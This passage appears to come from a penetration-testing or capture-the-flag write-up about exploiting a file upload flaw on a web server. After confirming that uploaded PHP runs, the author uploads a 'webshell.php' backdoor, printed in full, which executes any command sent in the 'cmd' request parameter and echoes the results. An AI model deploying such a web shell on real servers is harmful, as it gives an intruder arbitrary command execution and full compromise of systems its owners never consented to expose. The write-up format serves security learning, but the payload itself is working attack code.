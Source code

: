 
We have managed to upload a new image.

I’ll try to upload a php file to see if we are able to execute remote code: I will upload a simple hello world php file:


![alt_text](../images/image45.png "image_tooltip")


We have seen that we are able to execute remote code in the server. Let’s upload a **webshell.php** file with a backdoor to execute arbitrary code:

```shell
<?php
if (isset($_REQUEST["cmd"])) {
    echo "&lt;pre>";

    $cmd = $_REQUEST["cmd"];

    exec($cmd, $results);

    foreach ($results as $r) {
        echo $r . "&lt;br/>";
    }

    echo "&lt;/pre>";

    die();
} ?>

```
